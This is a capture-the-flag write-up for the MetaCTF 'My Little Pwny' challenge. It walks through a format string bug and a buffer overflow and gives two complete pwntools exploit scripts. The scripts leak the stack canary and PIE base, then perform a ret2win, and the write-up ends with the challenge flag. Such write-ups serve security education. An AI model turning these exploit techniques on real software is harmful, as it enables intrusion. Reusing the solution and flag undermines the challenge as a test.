







# My Little Pwny - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:



---

## Challenge Summary

In this challenge, the program asks the user to name two ponies. The `name_pony()` function is vulnerable to a **format string attack** where user input is passed directly to `printf(s)`. This allows an attacker to:

1. **Leak Canary and PIE**:

   - The format string vulnerability can be used to leak the **stack canary** and the **PIE base address**.

2. **Bypass Canary Check**:

   - Once the canary is leaked, it can be used to bypass the stack protection during exploitation.

3. **Ret2Win**:

   - Exploit the **buffer overflow** (via `fgets`) to overwrite the return address and redirect execution to the **win function** that prints the flag.

---

## Binary Information

```bash
$ file pwny
```



```bash
$ pwn pwny
```



---

## Static Analysis (IDA Pro)

### Overview:

In this analysis, we examine the program's flow to identify key vulnerabilities like **format string** and **buffer overflow**, and to locate the **canary** and **PIE base address** for exploitation.

### Key Findings:

1. **Main Function**:

   - The program calls `name_pony()` twice, each time prompting for user input. The input is processed with `fgets()` into a buffer that is vulnerable to overflow.



2. **Buffer Overflow**:

   - `fgets(s, 128, stdin)` reads up to 128 bytes into a 72-byte buffer (`s[72]`), creating a **buffer overflow** vulnerability. This allows overwriting of the **stack canary** and return address.

3. **Format String Vulnerability**:

   - The program passes user input directly to `printf(s)`, enabling a **format string attack**. This allows leaking of **stack canary** and **PIE base address** using format specifiers like `%p`.



4. **Exploitation Strategy**:

   - **Leak Canary**: Use format string to print stack values and leak the canary.
   - **Leak PIE Base**: Use the same technique to leak the PIE base address.
   - **Buffer Overflow**: Overwrite the return address with the address of the **win function** to print the flag.

### Conclusion:

By analyzing the stack layout and vulnerabilities, we can use a **format string attack** to leak the **canary** and **PIE base**, bypass the stack protection, and perform a **ret2win** attack.

---

## Exploit Strategy

1. **Leak Canary & PIE**:
   Use format string (`%p`) to leak the **canary** and **PIE base address**.

2. **Bypass Canary**:
   Include the leaked canary in the payload to bypass protection.

3. **Exploit Buffer Overflow**:
   Overflow the buffer to overwrite the return address with the `win()` function.

4. **Ret2Win**:
   Redirect execution to `win()` to print the flag.

---

## Exploit Code

### LOCAL :

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template pwny --host kubenode.mctf.io --port 30012
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'pwny')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30012)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b"Enter your pony's name: ")
io.sendline(b'%41$p.%44$p')
leak = io.recvline().split(b'.')
log.success(f"leak : {leak}")
canary = int(leak[0].decode(),16)
main = int(leak[1].split(b", that's beautiful!\n")[0],16)
log.success(f"canary : {hex(canary)}")
log.success(f"main : {hex(main)}")

exe.address = main - exe.symbols['main']
log.success(f"exe.address : {hex(exe.address)}")

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]

log.success(f"win : {hex(exe.sym['win'])}")

offset = 72
payload = flat (
        b'A' * offset,
        p64(canary),
        p64(ret),
        exe.sym['win'],
        exe.sym['main']
)
io.sendline(payload)
io.recvuntil(b'Flag: ')
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

### REMOTE :

```python
#!/usr/bin/env python3
from pwn import *

# Set up the binary and context
binary = './pwny'
elf = ELF(binary)
context.binary = binary

PIE_OFFSET = 0x20f0
CANARY_BUFFER_OFFSET = 72

#p = process(binary)
p = remote('kubenode.mctf.io', 30012)

p.recvuntil(b'positive energy')
p.sendline(b'%19$p-%6$p^')
leaks = p.recvuntil(b'!')

canary = int(leaks.split(b'-')[0].split()[-1], 16)
log.success(f'Leaked canary: {hex(canary)}')

leaked_pie = int(int(leaks.split(b'-')[1].split(b'^')[0], 16))
log.success(f'Leaked pie address: {hex(leaked_pie)}')

base_address = leaked_pie - PIE_OFFSET
elf.address = base_address
log.success(f"Base pie address: {hex(base_address)}")

payload = flat(
    b"A" * CANARY_BUFFER_OFFSET,  # Overflow buffer
    p64(canary),                  # Canary value
    b"B" * 8,                     # Padding to reach return address
    elf.symbols.win
)

p.sendline(payload)
print(p.recvall().split(b'Flag: ')[1].strip())

```

---

## Exploit Output



---

## Vulnerability Summary

1. **Format String Vulnerability**:

   - The `name_pony()` function uses `printf(s)` to print user input directly, allowing an attacker to control the format string. This enables **stack leakage** (canary and PIE base) via format specifiers like `%p`.

2. **Buffer Overflow**:

   - The program uses `fgets(s, 128, stdin)` to read input into a 72-byte buffer (`s[72]`). This creates a **buffer overflow** vulnerability, allowing the attacker to overwrite the return address.

3. **Stack Canary Bypass**:

   - The leaked **stack canary** value can be used to bypass stack protection mechanisms, preventing the program from terminating due to the canary mismatch.

4. **PIE Base Leak**:

   - The **PIE base address** can be leaked, helping the attacker calculate the address of the `win()` function, which can be used for a **ret2win** attack.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
